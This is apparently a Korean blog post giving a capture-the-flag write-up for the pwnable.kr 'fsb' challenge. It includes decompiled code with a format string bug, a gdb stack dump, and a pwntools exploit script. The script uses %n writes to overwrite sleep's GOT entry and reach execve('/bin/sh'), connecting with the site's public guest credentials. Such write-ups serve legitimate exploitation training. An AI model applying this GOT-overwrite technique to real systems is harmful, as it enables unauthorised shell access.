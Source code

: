 ```yaml
---
title: "[pwnable.kr]fsb"
date: 2020-1-27
tags: [pwnable.kr]
categories: [pwnable.kr]
---
```


여기 `printf(buf);` 에서 포맷스트링 버그가 터진다. 근데 buf가 전역변수이라는 점이다. Double Staged FSB로 풀면 될거 같다.

```c
int __cdecl fsb(_BYTE **a1, _BYTE **a2)
{
  char *path; // [esp+24h] [ebp-24h]
  int v4; // [esp+28h] [ebp-20h]
  int k; // [esp+2Ch] [ebp-1Ch]
  _BYTE **i; // [esp+30h] [ebp-18h]
  _BYTE *j; // [esp+34h] [ebp-14h]
  _DWORD *v8; // [esp+38h] [ebp-10h]
  _DWORD *v9; // [esp+3Ch] [ebp-Ch]

  path = "/bin/sh";
  v4 = 0;
  v8 = &a1;
  v9 = &a2;
  for ( i = a1; *i; ++i )
  {
    for ( j = *i; *j; ++j )
      *j = 0;
  }
  for ( i = a2; *i; ++i )
  {
    for ( j = *i; *j; ++j )
      *j = 0;
  }
  *v8 = 0;
  *v9 = 0;
  for ( k = 0; k <= 3; ++k )
  {
    printf("Give me some format strings(%d)\n", k + 1);
    read(0, buf, 100u);
    printf(buf);
  }
  puts("Wait a sec...");
  sleep(3u);
  puts("key : ");
  read(0, buf2, 100u);
  if ( strtoull(buf2, 0, 10) == key )
  {
    puts("Congratz!");
    execve(path, &path, 0);
  }
  else
  {
    puts("Incorrect key ");
  }
  return 0;
}
```

read받을 때 esp를 보면 0xffe21248을 보면 0xffe21260을 가르키고 있다. 이곳을 덮으면 0xffe21260에 값이 써질 것이다. 그리고 0xffe21260을 덮으면 처음 덮었던 곳이 두번째 덮은 값으로 바뀔거다.

```
(gdb) x/30wx $esp
0xffe21210:	0x00000000	0x0804a100	0x00000064	0x00000000
0xffe21220:	0x00000000	0x00000000	0x00000000	0x00000000
0xffe21230:	0x00000000	0x08048870	0x00000000	0x00000000
0xffe21240:	0xffe335c4	0xffe33fe9	0xffe21260	0xffe21264
0xffe21250:	0x00000000	0x00000000	0xffe334b8	0x08048791
0xffe21260:	0x00000000	0x00000000	0x00000000	0x00000000
0xffe21270:	0x00000000	0x00000000	0x00000000	0x00000000
```

익스 시나리오는 14번째 스택에 sleep@got로 덮어주면 20번째 스택에 값이 써지니까 거기를 execve실행시켜주는 곳으로 got overwrite시키면 sleep을 실행시키면 execve()를 실행할 수 있다. 

> exploit.py

```python
from pwn import *

e = ELF('./fsb')
#p = process('./fsb')

s = ssh('fsb','pwnable.kr',port=2222,password='guest')
p = s.process('./fsb')
# sleep@got : 134520840
p.sendafter('(1)\n','%134520836c%14$n') # sleep@got
p.sendafter('(2)\n','%134514335c%20$n') # execve

p.interactive()
```

